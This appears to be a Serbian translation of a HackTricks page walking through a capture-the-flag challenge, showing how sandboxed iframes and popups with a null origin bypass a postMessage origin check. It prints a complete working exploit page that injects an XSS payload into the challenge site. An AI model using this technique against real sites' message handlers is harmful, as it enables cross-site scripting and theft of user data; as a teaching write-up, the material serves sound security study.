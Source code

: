 # Bypassovanje SOP-a pomoću Iframeova - 1

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* Da li radite u **cybersecurity kompaniji**? Želite li da vidite **vašu kompaniju reklamiranu na HackTricks-u**? Ili želite da imate pristup **najnovijoj verziji PEASS-a ili preuzmete HackTricks u PDF formatu**? Proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Pridružite se** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili me **pratite** na **Twitter-u** 🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na [hacktricks repo](https://github.com/carlospolop/hacktricks) i [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)**.

</details>

## Iframeovi u SOP-1

U ovom [**izazovu**](https://github.com/terjanq/same-origin-xss) kreiranom od strane [**NDevTK**](https://github.com/NDevTK) i [**Terjanq**](https://github.com/terjanq) trebate iskoristiti XSS u kodiranom
```javascript
const identifier = '4a600cd2d4f9aa1cfb5aa786';
onmessage = e => {
const data = e.data;
if (e.origin !== window.origin && data.identifier !== identifier) return;
if (data.type === 'render') {
renderContainer.innerHTML = data.body;
}
}
```
Glavni problem je što [**glavna stranica**](https://so-xss.terjanq.me) koristi DomPurify za slanje `data.body`, pa da biste poslali svoje HTML podatke tom kodu, morate **zaobići** `e.origin !== window.origin`.

Pogledajmo rešenje koje predlažu.

### Zaobilaženje SOP-a 1 (e.origin === null)

Kada je `//example.org` ugrađen u **sandbox iframe**, tada će **poreklo** stranice biti **`null`**, tj. **`window.origin === null`**. Dakle, samo ugrađivanjem iframe-a putem `<iframe sandbox="allow-scripts" src="https://so-xss.terjanq.me/iframe.php">` možemo **nametnuti `null` poreklo**.

Ako je stranica **ugrađiva**, mogli biste zaobići tu zaštitu na taj način (kolačići takođe mogu zahtevati postavljanje na `SameSite=None`).

### Zaobilaženje SOP-a 2 (window.origin === null)

Manje poznata činjenica je da kada je postavljena vrednost **sandbox atributa `allow-popups`**, tada će **otvoreni popup** naslediti sve **sandbox atribute** osim ako nije postavljeno `allow-popups-to-escape-sandbox`.\
Dakle, otvaranje **popupa** iz **nultog porekla** će učiniti da je **`window.origin`** unutar popupa takođe **`null`**.

### Rešenje izazova

Stoga, za ovaj izazov, mogli biste **kreirati** iframe, **otvoriti popup** na stranici sa ranjivim XSS kodom (`/iframe.php`), jer je `window.origin === e.origin` jer su oba `null`, moguće je **poslati payload koji će iskoristiti XSS**.

Taj **payload** će dobiti **identifikator** i poslati **XSS** natrag na vrh stranice (stranica koja otvara popup), **koja će promeniti lokaciju** na ranjivu `/iframe.php`. Zato što je identifikator poznat, nije važno da uslov `window.origin === e.origin` nije ispunjen (zapamtite, poreklo je **popup** iz iframe-a koji ima **poreklo** **`null`**) jer je `data.identifier === identifier`. Zatim će se **XSS ponovo pokrenuti**, ovaj put na pravom poreklu.
```html
<body>
<script>
f = document.createElement('iframe');

// Needed flags
f.sandbox = 'allow-scripts allow-popups allow-top-navigation';

// Second communication with /iframe.php (this is the top page relocated)
// This will execute the alert in the correct origin
const payload = `x=opener.top;opener.postMessage(1,'*');setTimeout(()=>{
x.postMessage({type:'render',identifier,body:'<img/src/onerror=alert(localStorage.html)>'},'*');
},1000);`.replaceAll('\n',' ');

// Initial communication
// Open /iframe.php in a popup, both iframes and popup will have "null" as origin
// Then, bypass window.origin === e.origin to steal the identifier and communicate
// with the top with the second XSS payload
f.srcdoc = `
<h1>Click me!</h1>
<script>
onclick = e => {
let w = open('https://so-xss.terjanq.me/iframe.php');
onmessage = e => top.location = 'https://so-xss.terjanq.me/iframe.php';
setTimeout(_ => {
w.postMessage({type: "render", body: "<audio/src/onerror=\\"${payload}\\">"}, '*')
}, 1000);
};
<\/script>
`
document.body.appendChild(f);
</script>
</body>
```
<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* Da li radite u **cybersecurity kompaniji**? Želite li da vidite svoju **kompaniju reklamiranu na HackTricks-u**? Ili želite da imate pristup **najnovijoj verziji PEASS-a ili preuzmete HackTricks u PDF formatu**? Proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Pridružite se** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili me **pratite** na **Twitter-u** 🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na [hacktricks repo](https://github.com/carlospolop/hacktricks) i [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)**.

</details>
